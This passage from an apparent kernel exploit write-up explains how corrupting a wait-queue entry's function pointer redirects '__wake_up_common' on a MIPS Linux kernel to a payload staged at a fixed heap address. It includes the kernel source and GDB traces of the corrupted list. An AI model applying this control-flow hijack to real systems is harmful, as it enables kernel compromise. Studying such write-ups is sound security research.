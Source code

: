 This structure has a function pointer, `func`, that I use to hijack the execution and redirect the flow to a fixed location, in a large kernel heap chunk where I previously staged the payload (`0x83c00000` in the exploit code). The function invoking the `func` function pointer is `__wake_up_common` and you can see its code below:
 
```C
static void __wake_up_common(wait_queue_head_t *q, unsigned int mode,
      int nr_exclusive, int wake_flags, void *key)
{
  wait_queue_t *curr, *next;
 
  list_for_each_entry_safe(curr, next, &q->task_list, task_list) {
    unsigned flags = curr->flags;
 
    if (curr->func(curr, mode, wake_flags, key) &&
        (flags & WQ_FLAG_EXCLUSIVE) && !--nr_exclusive)
      break;
  }
}
```
 
This is what it looks like in GDB once `q->head.next/prev` has been corrupted:
```text
(gdb) break *__wake_up_common+0x30 if ($v0 & 0xffffff00) == 0xdeadbe00
 
(gdb) break sock_recvmsg if msg->msg_iov[0].iov_len == 0xffffffff
 
(gdb) c
Continuing.
sock_recvmsg(dst=0xffffffff85173390)
 
Breakpoint 2, __wake_up_common (q=0x85173480, mode=1, nr_exclusive=1, wake_flags=1, key=0xc1)
    at kernel/sched/core.c:3375
3375    kernel/sched/core.c: No such file or directory.
 
(gdb) p *q
$1 = {lock = {{rlock = {raw_lock = {<No data fields>}}}}, task_list = {next = 0xdeadbee1,
    prev = 0xbaadc0d1}}
 
(gdb) bt
#0  __wake_up_common (q=0x85173480, mode=1, nr_exclusive=1, wake_flags=1, key=0xc1)
    at kernel/sched/core.c:3375
#1  0x80141ea8 in __wake_up_sync_key (q=<optimized out>, mode=<optimized out>,
    nr_exclusive=<optimized out>, key=<optimized out>) at kernel/sched/core.c:3450
#2  0x8045d2d4 in tcp_prequeue (skb=0x87eb4e40, sk=0x851e5f80) at include/net/tcp.h:964
#3  tcp_v4_rcv (skb=0x87eb4e40) at net/ipv4/tcp_ipv4.c:1736
#4  0x8043ae14 in ip_local_deliver_finish (skb=0x87eb4e40) at net/ipv4/ip_input.c:226
#5  0x8040d640 in __netif_receive_skb (skb=0x87eb4e40) at net/core/dev.c:3341
#6  0x803c50c8 in pcnet32_rx_entry (entry=<optimized out>, rxp=0xa0c04060, lp=0x87d08c00,
    dev=0x87d08800) at drivers/net/ethernet/amd/pcnet32.c:1199
#7  pcnet32_rx (budget=16, dev=0x87d08800) at drivers/net/ethernet/amd/pcnet32.c:1212
#8  pcnet32_poll (napi=0x87d08c5c, budget=16) at drivers/net/ethernet/amd/pcnet32.c:1324
#9  0x8040dab0 in net_rx_action (h=<optimized out>) at net/core/dev.c:3944
#10 0x801244ec in __do_softirq () at kernel/softirq.c:244
#11 0x80124708 in do_softirq () at kernel/softirq.c:293
#12 do_softirq () at kernel/softirq.c:280
#13 0x80124948 in invoke_softirq () at kernel/softirq.c:337
#14 irq_exit () at kernel/softirq.c:356
#15 0x8010198c in ret_from_exception () at arch/mips/kernel/entry.S:34
```
 